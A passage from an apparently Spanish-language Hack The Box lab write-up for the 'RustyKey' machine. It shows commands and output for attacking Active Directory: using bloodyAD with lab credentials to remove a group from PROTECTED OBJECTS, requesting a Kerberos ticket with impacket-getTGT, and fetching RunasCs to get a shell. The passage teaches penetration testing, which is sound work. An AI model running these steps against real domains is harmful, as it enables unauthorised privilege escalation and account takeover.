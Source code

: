 Info:

```
2025-10-15 12:18:51.999577 (-0700) +3.851476 +/- 0.015355 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 3.851476
[+] Password changed successfully!
```

Ahora habiendo cambiado la contraseña, vamos a solicitar un `TGT` de dicho usuario para tenerlo guardado de esta forma, pero nos dara error y esto puede ser por que tambien esta dentro del grupo `PROTECTED OBJECTS`, por lo que vamos a eliminarlo de esta forma:

```shell
ntpdate rustykey.htb ; python3 bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'SUPPORT'
```

Info:

```
2025-10-15 12:24:52.569627 (-0700) +22.714649 +/- 0.014279 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 22.714649
[+] SUPPORT removed from PROTECTED OBJECTS
```

Ahora si solicitamos el `TGT` de nuevo:

```shell
ntpdate rustykey.htb ; impacket-getTGT rustykey.htb/'ee.reed':'P@ssw0rd!'
```

Info:

```
2025-10-15 12:25:13.429701 (-0700) +0.611923 +/- 0.014122 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 0.611923
/home/kali/Desktop/rustykey/bloodyAD/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ee.reed.ccache
```

Veremos que si nos deja, rapidamente vamos a descargarnos la herramienta `RunasCs.exe` para poder obtener una `shell` como dicho usuario.

URL = [Download RunasCs.exe ZIP GitHub](https://github.com/antonioCoco/RunasCs/releases)

Una vez descargado el `.zip` del `RunasCs` vamos a descomprimirlo.

```shell
unzip RunasCs.zip
```

Info:

```
Archive:  RunasCs.zip
  inflating: RunasCs.exe             
  inflating: RunasCs_net2.exe
```
